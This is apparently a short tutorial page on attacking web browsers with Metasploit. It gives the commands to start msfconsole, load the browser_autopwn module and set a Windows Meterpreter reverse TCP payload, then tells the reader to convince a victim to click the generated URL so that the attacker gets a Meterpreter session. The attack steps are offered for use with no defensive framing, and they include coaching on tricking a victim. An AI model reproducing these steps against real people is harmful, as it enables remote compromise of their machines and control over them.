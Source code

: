 We will use **Metasploit**

````
service postgresql start

msfconsole
````

- We will search **browser autopwn**, which is an auxiliary module provided by Metasploit that allows you to attack a victim machine simply when they access a webpage
````
search autopwn

use auxiliary/server/browser_autopwn
````

- Now set up the payload
````
set payload windows/meterpreter/reverse_tcp

set SRVHOST eth0 #localhost

exploit
````

Now, it's time to convince the victim to click on the URL generated:
Using URL: http://192.168.58.128:8080/pluralsight

- Now we have a full Meterpreter
